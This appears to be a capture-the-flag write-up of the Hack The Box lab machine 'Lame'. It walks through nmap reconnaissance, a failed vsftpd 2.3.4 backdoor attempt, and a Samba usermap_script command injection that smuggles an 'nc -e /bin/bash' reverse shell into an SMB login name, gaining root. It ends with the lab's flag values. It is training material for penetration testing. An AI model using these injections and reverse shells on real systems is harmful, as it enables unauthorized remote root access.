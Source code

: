 ```yaml
---
layout: post
title: Lame
tags: [OSCP, Writeup, Linux, Injection, SMB]
description: "Lame write-up"
---
```


![Lame logo](/assets/imgs/lame/lame.png)

### This is an easy linux box

## Tool used

------

- find
- nc
- nmap
- python
- searchsploit
- smbclient

## Reconnaissance

------

### Nmap

```
nmap -sV -sC -oA lame 10.10.10.3 -Pn -v

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h06m30s, deviation: 2h49m44s, median: 6m28s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-07-15T06:12:45-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

Here's what nmap teaches us :

- port 21 (FTP) vsftpd 2.3.4 : anonymous login
- port 22 (SSH) OpenSSH 4.7p1
- port 139 (NETBIOS)  Samba smbd 3.X - 4.X
- port 445 (SMB) Samba smbd 3.0.20-Debian

We have some version, let's check for known exploits.

### Searchsploit

#### FTP

![searchsploit FTP](/assets/imgs/lame/searchsploit_vsftpd.PNG)

I download the metasploit exploit like so :

```bash
searchsploit -m unix/remote/17491.rb
```

Looking at the exploit, we see that the backdoor payload is initiated in response to a :) character  combination in the username which represents a smiley face. The code  sets up a bind shell listener on port 6200.

Let's try it manually :

We triggered the backdoor, by using a smiley after the username.

```
ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:liodeus): test:)   
331 Please specify the password.
Password:
```

Then we connect to the bind shell on port 6200.

```
nc 10.10.10.3 6200
id
whoami
```

But we got nothing, too bad, the FTP server must be patch !

#### SSH

![searchsploit OPENSSH](/assets/imgs/lame/searchsploit_openssh.PNG)

As we can see, there is some exploit to do some "Username Enumeration". It might be interresting, but at the moment I don't really need a username. So if don't find anything with SMB, I'll get back to that exploit.

#### SMB

![searchsploit SMB](/assets/imgs/lame/searchsploit_samba3.0.20.PNG)

I see a "Command Execution", let's look at it.

## Exploit

------

Download the metasploit exploit :

```bash
searchsploit -m unix/remote/16320.rb
```

The interresting part is here :

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

 By specifying a username containing shell meta characters, attackers can execute arbitrary commands.([https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script))

I want a reverse shell so my payload should look something like this :

```ruby
./=`nohup nc -e /bin/bash 10.10.14.4 1234`
```

Let's try it !

Open a nc listener :

```ruby
nc -lvp 1234
```

Then triggered the exploit.

```bash
smbclient //10.10.10.3/tmp --option='client min protocol=NT1'

Enter WORKGROUP\liodeus's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc -e /bin/bash 10.10.14.4 1234`"
Password:
```

We have a connection back to our listener and we are "root", nice !

```bash
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.3: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 38077
id
uid=0(root) gid=0(root)
whoami
root
```

### Shell upgrade

Now that we have a shell, let's upgrade it :

```bash
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
root@lame:/#
```

And now go read the flags !

## Flags

------

### User.txt

```bash
find /home -name "user.txt"
/home/makis/user.txt
cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```

### Root.txt

```bash
find /root -name "root.txt"
/root/root.txt
cat /root/root.txt
92caac3be140ef409e45721348a4e9df
```